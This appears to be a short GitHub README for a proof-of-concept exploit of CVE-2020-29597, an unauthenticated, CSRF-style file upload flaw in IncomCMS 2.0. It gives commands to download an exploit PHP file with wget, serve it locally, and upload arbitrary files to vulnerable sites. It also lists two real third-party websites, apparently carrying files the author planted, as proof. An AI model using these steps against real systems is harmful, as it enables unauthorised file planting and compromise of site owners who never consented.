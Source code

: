 # CVE-2020-29597
Csrf file upload insecure

CVE-2020-29597 - IncomCMS 2.0 insecure files upload


Hi there!, I’ve discovered endpoint that accepts any file and upload it without any validation or even being authentication

CVE-ID : CVE-2020-29597
<br>
wget https://raw.githubusercontent.com/trhacknon/CVE-2020-29597/main/exp.php<br>
php -S 127.0.0.1:8080
<br>In your browser open http://127.0.0.1:8080/exp.php
<br>And upload your files (tested:jpg,png) 
POCs : http://mzgesheft.kz/upload/userfiles/image/tr.jpg
<br>http://mekom.kz/upload/userfiles/image/tr.jpg
